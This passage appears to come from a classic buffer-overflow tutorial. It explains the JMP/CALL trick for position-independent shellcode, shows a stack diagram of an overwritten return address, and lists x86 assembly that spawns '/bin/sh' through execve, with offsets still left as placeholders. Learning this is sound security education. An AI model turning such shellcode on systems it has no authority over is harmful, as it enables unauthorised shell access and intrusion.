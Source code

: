    The problem is that we don't know where in the memory space of the 
program we are trying to exploit the code (and the string that follows 
it) will be placed.  One way around it is to use a JMP, and a CALL 
instruction.  The JMP and CALL instructions can use IP relative addressing, 
which means we can jump to an offset from the current IP without needing 
to know the exact address of where in memory we want to jump to.  If we 
place a CALL instruction right before the "/bin/sh" string, and a JMP 
instruction to it, the strings address will be pushed onto the stack as 
the return address when CALL is executed.  All we need then is to copy the 
return address into a register.  The CALL instruction can simply call the 
start of our code above.  Assuming now that J stands for the JMP instruction,
C for the CALL instruction, and s for the string,  the execution flow would 
now be:


bottom of  DDDDDDDDEEEEEEEEEEEE  EEEE  FFFF  FFFF  FFFF  FFFF     top of
memory     89ABCDEF0123456789AB  CDEF  0123  4567  89AB  CDEF     memory
           buffer                sfp   ret   a     b     c

<------   [JJSSSSSSSSSSSSSSCCss][ssss][0xD8][0x01][0x02][0x03]
           ^|^             ^|            |
           |||_____________||____________| (1)
       (2)  ||_____________||
             |______________| (3)
top of                                                            bottom of
stack                                                                 stack



   With this modifications, using indexed addressing, and writing down how
many bytes each instruction takes our code looks like:

</PRE>
```nasm
      jmp    offset-to-call           # 2 bytes
      popl   %esi                     # 1 byte
      movl   %esi,array-offset(%esi)  # 3 bytes
      movb   $0x0,nullbyteoffset(%esi)# 4 bytes
      movl   $0x0,null-offset(%esi)   # 7 bytes
      movl   $0xb,%eax                # 5 bytes
      movl   %esi,%ebx                # 2 bytes
      leal   array-offset,(%esi),%ecx # 3 bytes
      leal   null-offset(%esi),%edx   # 3 bytes
      int    $0x80                    # 2 bytes
      movl   $0x1, %eax               # 5 bytes
      movl   $0x0, %ebx               # 5 bytes
      int    $0x80                    # 2 bytes
      call   offset-to-popl           # 5 bytes
      /bin/sh string goes here.
```
<PRE>

   Calculating the offsets from jmp to call, from call to popl, from
the string address to the array, and from the string address to the null
long word, we now have:
